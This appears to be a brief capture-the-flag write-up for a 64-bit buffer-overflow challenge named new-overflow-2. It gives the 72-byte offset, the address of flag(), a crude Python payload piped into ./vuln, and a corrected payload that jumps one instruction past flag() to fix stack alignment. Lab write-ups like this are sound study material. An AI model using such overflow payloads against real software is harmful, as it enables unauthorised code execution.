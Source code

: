 new-overflow2:

start of buffer to ret: 72 bytes
flag(): 0x000000000040084d
crude payload: python -c 'print "A"*72 + "\x4d\x08\x40\x00\x00\x00\x00\x00"' | ./vuln

The payload doesn't work on the server, just like in new-overflow-1, because of improper stack alignment on 64 bit. Jumping to one instruction after the beginning of flag() solves this.
working payload: python -c 'print "A"*72 + "\x4e\x08\x40\x00\x00\x00\x00\x00"' | ./vuln
